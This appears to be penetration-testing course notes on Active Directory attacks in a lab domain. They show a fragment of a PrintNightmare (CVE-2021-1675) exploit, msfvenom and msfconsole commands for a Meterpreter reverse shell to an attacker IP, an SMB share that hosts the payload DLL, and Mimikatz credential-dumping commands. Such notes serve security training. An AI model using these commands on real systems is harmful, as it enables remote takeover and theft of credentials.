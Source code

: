 ```python
    else:
        pDriverPath = options.pDriverPath

    if "\\\\" in options.share:
        options.share = options.share.replace("\\\\","\\??\\UNC\\")

    print("[+] pDriverPath Found {0}".format(pDriverPath))
    print("[*] Executing {0}".format(options.share))

    #re-run if stage0/stageX fails
    print("[*] Try 1...")
    main(dce, pDriverPath, options.share)
    print("[*] Try 2...")
    main(dce, pDriverPath, options.share)
    print("[*] Try 3...")
    main(dce, pDriverPath, options.share)
```

Use msfvenom to generate payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker IP> LPORT=5555 -f dll >shell.dll

#new msfconsole tab
msfconsole
use multi/handler
options #need to set payload
set payload windows/x64/meterpreter/reverse_tcp
set lport 5555
set lhost <attacker ip>
run
```
new tab >> set up file share to share file we created
```bash
smbserver.py share `pwd` -smb2support #run with smb support
```
we need user pass and DC
```bash
#back in msfvenom tab
python3 CVE-2021-1675.py marvel.local/fcastle:Password1@<DC IP> `\\<our kali file share>\share\shell.dll
```

# Mimikatz Overview
**What is Mimikats?**
- tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- dumps credentials stored in memory
- just a few attacks: credential dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket

❗️ Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
Place in DC
we assume a compromised DC >> what we can do after and why
### Credential dumping with mimikatz
run mimikatz in DC
```powershell
cd Downloads
mimikatz.exe
#>>>>first thing to always do
privilege::debug #look for privilege 20 OK

sekurlsa::logonpasswords #shows recent login users, can search admins , can turn out wdigest with mimikatz 

```